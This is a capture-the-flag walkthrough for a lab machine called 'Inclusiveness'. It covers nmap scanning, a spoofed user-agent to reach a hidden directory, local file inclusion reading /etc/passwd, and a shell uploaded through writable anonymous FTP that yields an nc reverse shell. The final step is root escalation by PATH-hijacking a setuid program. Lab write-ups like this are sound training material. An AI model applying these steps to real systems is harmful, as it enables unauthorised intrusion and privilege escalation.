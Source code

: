 ### Inclusiveness

### Difficuly: Easy

Machine IP: 192.168.101.14

### Scanning
```bash
$ nmap -sC -sV -oA nmap/initial 192.168.101.14                                                             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 06:04 EDT
Nmap scan report for 192.168.101.14
Host is up (0.10s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 06:1b:a3:92:83:a5:7a:15:bd:40:6e:0c:8d:98:27:7b (RSA)
|   256 cb:38:83:26:1a:9f:d3:5d:d3:fe:9b:a1:d3:bc:ab:2c (ECDSA)
|_  256 65:54:fc:2d:12:ac:e1:84:78:3e:00:23:fb:e4:c9:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.38 seconds
```

### Enumeration

- Found home page and have robots.txt

![home_page](images/home_page.PNG)

- change the `user_agent` header to `Google bot` and sent request and found `secret_information`

__Request__
```php
GET /robots.txt HTTP/1.1
Host: 192.168.101.14
User-Agent: Googlebot/2.1; +http://www.google.com/bot.html
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sat, 08 Feb 2020 03:40:29 GMT
If-None-Match: "3b-59e084481655e"
Cache-Control: max-age=0
```

__Response__

```javascript
HTTP/1.1 200 OK
Date: Thu, 12 Aug 2021 10:17:36 GMT
Server: Apache/2.4.38 (Debian)
Last-Modified: Sat, 08 Feb 2020 03:26:11 GMT
ETag: "2d-59e08115bb1ef"
Accept-Ranges: bytes
Content-Length: 45
Connection: close
Content-Type: text/plain

User-agent: *
Disallow: /secret_information/
```

- Secret information home page

- URL: http://192.168.101.14/secret_information/?lang=en.php
![secret_information](images/secret_information.PNG)

- Since the box name is inclusiveness, and tried file inclusion and got etc password.

![etc_passwd](images/etc_passwd.PNG)

- Found `pub` directory through `ftp`, which is writable, now upload a shell and check in the web.
- ftp location can be found at `/var/ftp/pub/test.php` 
- Now listen on port 9001 and open `` and reverse shell is connected

__Result__

```bash
└─$ nc -lvnp  9001                                                                        1 ⚙
listening on [any] 9001 ...
connect to [192.168.49.101] from (UNKNOWN) [192.168.101.14] 55418
Linux inclusiveness 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64 GNU/Linux
 20:41:26 up  5:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

- Accessing `local.txt` file
```bash
www-data@inclusiveness:/home/tom$ cat local.txt
cat local.txt
27ee94d9bfb393fc911375067335bab5
```


### Privilege escalation


- Found a file ``rootshell.c` 
```c
cat /home/tom/rootshell.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
        setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}

```

- Now create a fiel name `whoami`(executable) and change the path (path hijacking)

```bash
$ cd /tmp
$ echo "printf "tom"" > whoami
$ chmod +x whoami
$ export PATH=/tmp:$PATH
```
 - Now execte `rootshell` file and that will elevate privilages to root
 

